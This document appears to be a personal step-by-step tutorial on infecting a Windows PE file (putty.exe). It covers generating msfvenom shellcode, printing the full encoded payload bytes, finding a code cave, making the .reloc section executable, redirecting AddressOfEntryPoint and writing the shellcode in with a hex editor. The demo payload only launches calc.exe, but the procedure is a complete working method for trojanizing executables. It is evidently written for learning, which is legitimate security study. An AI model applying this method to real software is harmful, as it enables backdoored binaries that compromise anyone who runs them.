








# Infecting PE Files - Find code cave -> inject into section - Manual
The PE file I'm using as my dummy program in this demo is
putty.exeOverview
1. Prepare shellcode
2. Find code cave
3. Open in CFF Explorer
1) Set section where code cave resides as read/write/execute
2) Calculate address of entry point
- Code Cave Section's VirtualAddress + offset to code cave
3) Change AddressOfEntry point
5. Open in HxD
5) Write shellcode into code cave -> save
Software:• Tool to find code cave
◇
https://github.com/Antonin-Deniau/cave_miner - never used before
◇
https://github.com/axcheron/pycave - never used before
• HxD
• CFF Explorer
1. Prepare shellcode
Bad bytes on Windows are always:
0x00 0x0a 0xad1a) Generate shellcode
To get shellcode as raw bytes, pipe to
xxd:
msfvenom ... | xxd -pOr if you want the ASCII and addresses too, pipe to
hexdump -C:
msfvenom ... | hexdump -CThe shellcode I've generated here spawns
calc.exe:
┌─[horace@parrot]─[~]
└──╼ $msfvenom -p windows/exec cmd=calc.exe -b '0x00 0x0a 0xad' | xxd -p
[...]
Payload size: 220 bytes
be9ddef3d0d9ecd97424f4582bc9b13131701383e8fc0370923c062c4442
e9cd94236328a56317389553536c191f3185aa6d9eaa1bdbf8859c703887
1e8b6d671f44606658b9893a31b53cab3683fc40040585b5dc24a46b577f
668db40b2f95d936f92e29ccf8e6602d56c74ddca60f693fdd798ac2e6bd
f118622651ead482603f82416ef4c00e720b04258e80abea07d28f2e4c80
ae772867ce6893d86ae2390c07a957d395d715d3a5d709bc945cc6bb28b7
a334639a85dc2a4e9480cca4dabc4e4da23a4e24a707c8d4d518bdda4a18
94b80d8a7411a82a1e6d
1b) Modify
Add
0x60 0x9c to the start of your shellcode.
These are the
pushad and
pushaf instructions.
0x60 -
pushad - push all general purpose registers to stack
0x9c -
pushfd - push EFLAGS to stack
Shellcode doesn't seem to execute properly without them.
Final shellcode:
609cbe9ddef3d0d9ecd97424f4582bc9b13131701383e8fc0370923c062c4442
e9cd94236328a56317389553536c191f3185aa6d9eaa1bdbf8859c703887
1e8b6d671f44606658b9893a31b53cab3683fc40040585b5dc24a46b577f
668db40b2f95d936f92e29ccf8e6602d56c74ddca60f693fdd798ac2e6bd
f118622651ead482603f82416ef4c00e720b04258e80abea07d28f2e4c80
ae772867ce6893d86ae2390c07a957d395d715d3a5d709bc945cc6bb28b7
a334639a85dc2a4e9480cca4dabc4e4da23a4e24a707c8d4d518bdda4a18
94b80d8a7411a82a1e6d
1c) Calculate shellcode size
Grab the size of the shellcode in both decimal and hex values.
We will need them later.
https://www.rapidtables.com/convert/number/decimal-to-hex.htmlAbove shellcode size:
• Decimal -
222• Hex -
DE2. Find code cave
Next, you need to find a code cave to store your shellcode.
You can use a tool to find one (referenced above) or manually search through the file in HxD.
My dummy file is
putty.exeIn my case, I know that there's a code cave at
00107b20 in the
.reloc section.
3. Edit in CFF Explorer
In CFF Explorer we need to:
• set the section where our code resides -
.reloc - to read/write/execute
• modify the AddressOfEntryPoint to the start of our code cave/shellcode
3a) Change section to read/write/execute
Section Headers > Find target section > Right click > Change Section FlagsTick
executable,
readable, and
writeable.
3b) Calculate AddressOfEntryPoint
Navigate to
Section Headers and check the values of the section where your code cave resides.
My target section is
.relocThe
RawAddress (base address) of this .reloc section on disk is:
0x00100a00The base address of the code cave on disk is:
0x00107b20(we know this from your code-cave-finding tool or HxD)
To calculate the offset to the code cave, do:
Code Cave Address -
RawAddress of Section =
Offset to Code Cave0x00107b20 -
0x00100a00 =
0x7120We can now use this offset to calculate the start address of our code cave/shellcode once the program has been loaded into memory.
Do:
section's VirtualAddress +
Offset to Code Cave =
Offset of Code Cave from ImageBase0x00109000 +
0x00007120 =
0x00110120Great!
0x00110120 is the offset to our code cave from the ImageBase (0x00400000), and our entry point!
3c) Change entry point
Navigate to
Optional Header > AddressOfEntryPoint and change the value.
If the value is correct, the entry point will now read the section where our code cave resides.
3d) Save
You're done editing the file in CFF Explorer.
Save!
Overwriting is fine.
4. HxD - Write shellcode into code cave
Now we can inject our shellcode.
Open your modified PE file in
HxD, a hex editor.
Press
Ctrl+G for
Go to, and input the address of your code cave.
In my case that's
00107b20Now we're at the start of our code cave.
Our shellcode size is
DE (222 bytes), so highilght
DE bytes and copy/paste your shellcode in
Save the file, and you're done.
5. Test
We're done!
We've injected shellcode into a code cave, modified the section where our code cave resides to read/write/executable, and changed the entry point of the program to our code cave/shellcode.
Our dummy file should now execute our shellcode instead of the legitimate program.
Here
calc.exe runs intead of
putty:
